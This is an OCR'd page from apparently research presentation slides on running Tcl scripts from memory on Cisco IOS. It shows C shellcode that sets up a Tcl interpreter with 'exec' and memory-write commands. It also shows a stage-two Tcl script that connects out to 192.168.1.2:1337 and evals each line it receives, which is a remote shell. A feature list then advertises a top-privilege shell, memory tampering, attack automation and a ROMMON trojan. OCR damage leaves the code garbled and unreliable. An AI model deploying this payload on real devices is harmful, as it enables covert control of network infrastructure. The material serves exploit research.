 ## Run Tcl script from memory / Eval^2

```
void shellcode() {
     Tcl  Interp* interp = Tcl  CreateInterp();
     Tcl  CmdProc* tcl  exec =
     find Tcl command(subsys->init address, 1MB, "exec",
                     Tcl CreateCommand);
     if(tcl  exec != NULL){
        Tcl_CreateCommand(interp, "exec", tcl_exec, 0, 0);
     Tcl  CreateCommand(interp, "wmem", wmem, 0, 0);
     const char* script =
     #include "./tcl/stage2.tcl"
     Tcl_Eval(interp, script);
```

```
# ./tcl/stage2.tcl
set sockid [ socket "192.168.1.2" 1337]
while {1}
    flush $sockid
    set line   [gets $sockid]
    catch {eval $line} cmdres
    puts $sockid $cmdres
close $sockid
```
![](_page_49_Picture_0.jpeg)

## Features / Properties / Limitations

#### Features

- We have a shell with the highest level of privileges
- We can work with file system and sockets
- We can read/write memory:
	- to change behavior of Cisco IOS
	- to analyze IOMEM

#### Advanced Features

- Macro Command (e.g. create GRE tunnel)
- Automation of attacks
- Reuse other TCl tools
- ROMMON Trojan

#### Properties
